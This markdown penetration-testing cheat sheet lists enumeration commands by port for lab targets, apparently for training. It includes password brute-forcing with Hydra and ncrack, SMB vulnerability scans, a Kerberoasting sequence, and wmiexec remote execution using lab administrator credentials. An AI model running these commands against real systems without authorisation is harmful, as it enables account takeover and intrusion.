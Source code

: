 # External-Enumeration

##  NMAP

#### Silent mode
```
nmap -T4 -sS -sV -vv -Pn -p<PORT> <IP>
```
#### Agressive mode
```
nmap -T4 -sS -A -p- <IP>
```
#### UDP Scan
```
nmap -T4 -sUV <IP>
```
#### List the nmap script
```
ls -l /usr/share/nmap/scripts/smb*
```

## Fuzzing

#### Dirb
```
dirb http://10.0.0.1/abc/ /usr/share/wordlists/dirb/big.txt  
```
#### Gobuster
```
gobuster -u http://10.11.1.10/ -w /usr/share/wordlists/dirb/common.txt -e -t 20
gobuster dir -u http://10.11.1.10/ -w /usr/share/wordlists/dirb/big.txt -t 30 -e -k -x .html,.php,.asp,.aspx,.htm,.xml,.json,.jsp,.pl
```


## Vulnerability scanner
```
nikto -host=http://example.com
```

## Port 21
#### Vuln detection using nmap
```
nmap -p 21 -sV -sC --script="ftp-vuln-*, ftp-anon" 10.0.0.1-254
```
#### Hydra - Bruteforcing
```
hydra -s 21 -t 4 -l admin -P /usr/share/wordlists/rockyou.txt 10.0.0.1 ftp
```


## Port 22
#### Hydra - Bruteforcing
```
hydra -s 22 -v -t 4 -l root -P /usr/share/wordlists/rockyou.txt 10.0.0.1 ssh
```


## Port 25
## Port 110
## Port 111
```
rpcinfo -p 10.11.1.111
rpcclient -U "" 10.11.1.111
    srvinfo
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall
```


## Port 139, 445
#### Basic enumeration
```
enum4linux -a 10.0.0.1
```

#### List nmap scripts - Detection vuln port 445 139
```
nmap -p 445,139 -Pn --script=smb-vuln-*.nse 10.0.0.1
nmap -p 445,139 -Pn --script smb-protocols.nse 10.0.0.1

nmap -v -p 139,445 --script=smb-os-discovery 10.0.0.1
nmap -v -p 139,445 --script=smb-vuln-ms08-067 --script-args=unsafe=1 10.0.0.1

nmap -v -p 139,445 --script=smb* 10.0.0.1
```

#### Connection attempt
```
smbclient -L \\10.0.0.1
smbclient -L 10.11.1.31 -U anonymous
smbclient -L 10.0.0.1 --options='client min protocol=NT1'
```

#### SMBmap List the rights on the folders / recursif mode
```
smbmap -H 10.0.0.1

// Reculsive enumeration
smbmap -H 10.0.0.1 -R

// Recursive enumeration on a specific folder
smbmap -H 10.129.168.32 -R 'Replication\active.htb'

// Authenticated enumeration
smbmap -H 10.129.168.32 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -R

// Download a file
smbmap -H 10.129.168.32 --download '.\Users\SVC_TGS\Desktop\user.txt'

// If error ‘[!] Authentication error on 10.0.0.1’ try with a fake user -u ‘123’
smbmap -H 10.0.0.1 -R -u ‘123’
```

#### Detection of the version using Wireshark
```
If the following error appear "protocol negotiation failed : NT_STATUS_CONNECTION_DISCONNECTED", it's probably due to the old smb version of the victim.
Solution: Intercept the trafic of the command ‘smbclient -L \\<IP> with wireshark and search the negotiation of the smb version.
```

#### Access through through the kali folder
```
smb://<ip>/<folder>
```
#### Mount a share folder
```
mount -t cifs //10.0.0.1/share /mnt/share
mount -t cifs -o "username=user,password=password" //10.0.0.1/share /mnt/share
```

#### Bruteforce
```
hydra -L users.txt -P passs.txt smb://10.0.0.1 -t 4
hydra -L username.txt -P password.txt 10.0.0.1 smb -V
```


## Port 143
## Port 389
```
ldapsearch -x -h 10.129.168.32 -p 389 -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub"(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname | grep sAMAccountName

./GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.129.168.32


ldapsearch -x -h 10.129.168.32 -p 389 -D 'SVC_TGS' -w'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub"(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname | grep -B 1 servicePrincipalName


./GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.129.168.32

./GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.129.168.32 -request

./wmiexec.py active.htb/administrator:Ticketmaster1968@10.129.168.32
```


## Port 587
## Port 1433
#### Basic connection using sqsh
```
sqsh -U sa -P password -S 10.0.0.1:1433 -D mydb
```
#### Obtain a pretty output
```
go -m pretty
```
#### Execute command trough sqsh
#### Activate xp_cmdshell


## Port 3389

#### Nmap - Scan vuln
```
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 10.0.0.1
```
#### Bruteforce 
```
hydra -L user.txt -P pass.txt 10.0.0.1 rdp
ncrack -vv --user administrator -P passwords.txt rdp://192.168.1.10,CL=1
```
#### Remote Desktop
rdesktop 192.168.1.10
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>

